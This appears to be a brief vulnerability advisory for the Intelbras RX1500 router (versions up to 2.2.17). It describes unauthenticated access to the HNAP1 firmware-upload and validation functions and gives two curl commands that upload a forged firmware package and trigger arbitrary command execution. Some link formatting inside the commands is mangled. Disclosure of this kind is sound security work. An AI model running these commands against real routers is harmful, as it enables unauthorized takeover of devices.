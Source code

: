 #Intelbras  Vulnerability



Vendor:Intelbras  

Product:RX1500

https://www.intelbras.com/en

Version:

RX1500(<=2.2.17)

Vulnerability Type:

Incorrect Access Control

Attack Type:

Remote



## Vulnerability description

 The FirmwareUpload function and GetFirmwareValidation function of the HNAP1 router can be accessed without authorization. Hackers can forge a firmware package and upload it, and use the forged fwu.sh to execute any command.

 Forge firmware package and upload:

curl -X POST -F data=@rce_command.aes -v -H "SOAPAction: \\"[http://purenetworks.com/HNAP1/FirmwareUpload\\](http://purenetworks.com/HNAP1/FirmwareUpload//)"" + "{ip}/HNAP1/"

Using GetFirmwareValidation trigger:

curl -X POST -F [data=@test.xml](mailto:data=@test.xml) -v -H "SOAPAction: \\"[http://purenetworks.com/HNAP1/GetFirmwareValidation\\](http://purenetworks.com/HNAP1/GetFirmwareValidation//)"" + "{ip}/HNAP1/"

